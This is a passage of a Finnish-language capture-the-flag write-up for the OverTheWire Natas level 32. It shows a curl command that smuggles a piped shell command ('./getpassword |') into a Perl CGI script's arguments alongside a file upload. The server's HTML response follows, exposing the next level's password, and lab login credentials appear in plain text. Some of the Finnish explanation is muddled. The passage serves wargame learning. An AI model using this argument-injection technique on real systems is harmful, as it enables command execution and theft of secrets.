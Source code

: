 Entä jos `./getpassword` ja ilman %`20|` ei toimi näkyvästi?
- silloin skripti saattaa tuoda mahdollisesti suorittaa binääri muodossa
- tulos ei ohjaudu näkyviin, vaan menee prosessiin tai jää hukkaan
- binääri **saattaa tulostaa binääristä dataa**, mikä voi aiheuttaa terminaaliin syntax error virhe ilmoituksena näin `Warning: Binary output can mess up your terminal...` ja curl varoittaa, että tulos ei ole tavallista tekstiä.
- Nyt tässä tulostuu se virallinen vastaus.

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B "http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|" -F "file=ARGV" -F "file=@/home/kali/Downloads/Book1.csv;type=text/csv"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas32", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- 
    morla/10111 
    shouts to Netanel Rubin    
-->

<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ
```
